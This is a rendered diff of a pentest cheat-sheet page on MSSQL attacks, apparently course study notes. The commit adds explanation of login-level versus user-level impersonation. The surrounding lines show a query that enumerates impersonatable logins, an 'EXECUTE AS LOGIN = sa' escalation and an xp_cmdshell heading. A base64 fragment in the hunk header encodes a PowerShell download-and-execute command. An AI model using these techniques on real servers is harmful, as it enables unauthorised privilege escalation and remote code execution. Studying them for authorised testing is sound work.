

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: MSSQL Advanced Attacks.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/MSSQL Advanced Attacks.md
+++ b/MSSQL Advanced Attacks.md
@@ -85,7 +85,11 @@ ADEAMQA4AC4AOQA6ADgAMQAvAHIAdQBuAC4AcABzADEAJwApACAAfAAgAEkARQBYAA=='
 
 **PRIVILEGE ESCALATION:**
 
-To view the users you can impersonate:
+Impersonation can be performed in two ways, first it can be done at a login level using the "EXECUTE AS LOGIN" statement, or it can be done at a user level with the "EXECUTE AS USER" statement.
+
+*Impersonation at a login level:*
+
+Enumerating users that can be impersonated at a login level. It is important to note that this query won't return us the user that is allowed to impersonate.
 
 ```
 SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
@@ -95,6 +99,9 @@ To impersonate(assuming you can impersonate the sa user):
 ```
 EXECUTE AS LOGIN = sa;
 ```
+
+*Impersonation at a user level:*
+
 
 **CODE EXECUTION(through xp_cmdshell):**
 
````
